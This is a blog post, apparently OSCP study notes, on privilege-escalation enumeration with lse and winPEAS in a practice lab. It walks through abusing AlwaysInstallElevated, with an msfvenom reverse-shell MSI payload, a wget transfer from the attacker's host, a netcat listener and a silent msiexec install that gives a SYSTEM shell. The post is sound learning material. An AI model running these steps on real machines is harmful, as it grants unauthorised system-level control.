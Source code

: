```yaml
---
layout: post
title: Windows and Linux Privilege Escalation Tools
subtitle: Abusing the AlwaysInstallElevated option for privilege escalation
tags: [Security, OSCP, Privilege escalation, Pentest, Red-teaming]
comments: true
---
```


In my preperation for the OSCP course i am learning about both linux and windows privilege escalations techniques.  
There are different escaltion techniques like escalation via kernel exploits, unqoted services, misconfigruations and stuff like that.
I built myself a lab to practice on.  
I have used <https://github.com/sagishahar/lpeworkshop> for the lab. Everything you need to know is in there. I did use a Win 10 machine so i had to remove the space between the md5 hashes to make the script work. Also i did create an admin account and disabled the realtime protection.

You can find the different privilege escalation manually or via automated scripts.  
The two tools i use for automation are linux-smart-enumeration for Linux <https://github.com/diego-treitos/linux-smart-enumeration> and
winPEAS for Windows <https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite>

To use lse (Linux-smart-enumeration), first we nee to download the script. 
<div class="alert-info">git clone git clone https://github.com/diego-treitos/linux-smart-enumeration.git
</div>

Next we can use lse. you can use the -h parameter to show the options. I am not going to get in details about this.
<div class="alert-info">./lse.sh -h
</div>
Of course you have to run this on the victim-pc or victim-server.

To use winPEAS ,first we need to download the scripts.
<div class="alert-info">git clone git clone https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite.git
</div>
As with the lse.sh script, you have to run this on the victim-pc or victim-server.

To transfer one of these files you have a few options you can use.
On linux you can start a http server to download the files via the shell on the victim.
Other options are to transfer these files via SMB or NetCat if it is available on the victim.
When transfering via SMB you have to setup SMB on kali.

To start a http server run the following command.
<div class="alert-info">sudo python3 -m http.server 80</div>
This will start a http on port 80 in the directory you currently are.

You can now download the lse.sh if you are on Linux or winPEAS.exe if you are on Windows.
Once you have transferd one of the files you can run it and read the output carefully for anything interesting that could lead to a privilege escalation.

Let's say we already have shell on a Windows victim we could start from there to download the winPEAS.exe file with the command below
<div class="alert-info">wget http://ip/winPEAS.exe -O winPEAS.exe</div>
![image](/assets/img/tranfser-winpeas.png)  
As you can see the shell we had does not understand weget. So we just type in powershell to get a powershell shell were we can run the wget command.

Next run the winPEAS.exe and check for anything interesting that could lead to a privilege escalation.

We use the command .\winPEAS.exe -h to see what options we have.
![image](/assets/img/winpeas-h.png)
Let's run the following command
<div class="alert-info">.\winPEAS.exe windowscreds</div>
![image](/assets/img/winpeas-windowscreds.png)
The results shows us that AlwaysInstallElevated is set to 1 in both HKLM and HKCU!
This means that .MSI packages are installed with eleveated system privileges.

We now can run the following msfvenom commannd to create a payload with a reverse shell in it.
<div class="alert-info">msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f msi -o reverse.msi</div>
![image](/assets/img/msfvenom-msi.png)
Next we set up a http server to download the file from the victim
<div class="alert-info">sudo python3 -m http.server 80</div>
![image](/assets/img/http-server.png)

Next we download the reverse.msi to the victim
<div class="alert-info">wget http://ip/reverse.msi -O reverse.msi</div>
![image](/assets/img/wget-msi.png)

We now setup a new NetCat listener on Kali 
<div class="alert-info">sudo nc -nlvp 55</div>
![image](/assets/img/nc-listener-55.png)

Finally we run the following command in the victim shell
<div class="alert-info">msiexec /quiet /qn /i reverse.msi</div>
![image](/assets/img/msiexec.png)

Lets go back to the new nc listener and checkout if we did catch the reverse shell with system privileges.

![image](/assets/img/system-msiexec.png)

Yes, we have shell and running it as system!
